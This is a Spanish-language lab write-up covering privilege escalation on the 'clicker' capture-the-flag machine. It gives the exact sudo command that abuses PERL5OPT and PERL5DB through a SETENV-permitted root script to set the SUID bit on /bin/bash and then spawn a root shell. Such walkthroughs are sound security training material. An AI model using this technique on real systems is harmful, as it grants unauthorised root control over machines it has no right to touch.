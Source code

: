 Si mostramos los permisos de nivel de sudoers, veremos que podemos ejecutar el script **monitor.sh** como root sin contraseña: 

```ruby
User jack may run the following commands on clicker:
    (ALL : ALL) ALL
    (root) SETENV: NOPASSWD: /opt/monitor.sh
```
Codigo:

```bash
#!/bin/bash
if [ "$EUID" -ne 0 ]
  then echo "Error, please run as root"
  exit
fi

set PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
unset PERL5LIB;
unset PERLLIB;

data=$(/usr/bin/curl -s http://clicker.htb/diagnostic.php?token=secret_diagnostic_token);
/usr/bin/xml_pp <<< $data;
if [[ $NOSAVE == "true" ]]; then
    exit;
else
    timestamp=$(/usr/bin/date +%s)
    /usr/bin/echo $data > /root/diagnostic_files/diagnostic_${timestamp}.xml
fi
```
Este script parece hacer un tipo diagnostico y lo guarda en el archivo  **/root/diagnostic_files/diagnostic...**, sin embargo, podemos ver que hace uso de variables de entorno de perl (PERL5LIB, PERLLIB), en este caso usa **unset** para eliminar esas variables de entorno en tiempo de ejecucion. Tomando en cuenta el uso de variables de entorno de perl y el uso de **/usr/bin/xml_pp** (otro script de perl), nosotros podemos abusar de las variables de entorno de perl para ejecutar comandos, mas en particular de **PERL5DB** y **PERL5OPT**, esta vulnerabilidad se le conoce como **perl_startup**

Para explotarla podemos ingresar:

```perl
sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh
```

- PERL5OPT=-d: se establece la variable de entorno **PERLOPT5** con el argumento -d, que significa modo de depuracion,
- Posteriormente se establece la variable de entorno **PERL5DB** con el valor de **exec** para ejecutar el comando que sigue

Basicamente lo que estara haciendo es ejecutar el script **monitor.sh** en modo de depuracion, y tomando en cuenta que podemos establecer variables de entorno, usamos **PERL5OPT** y **PERL5DB**  para ejecutar un comando arbitrario a la hora de depurar el script

Ahora solo queda ejecutar **bash -p** y seremos root

![](/assets/img/clicker/12.png)

Eso ha sido todo, gracias por leer ❤
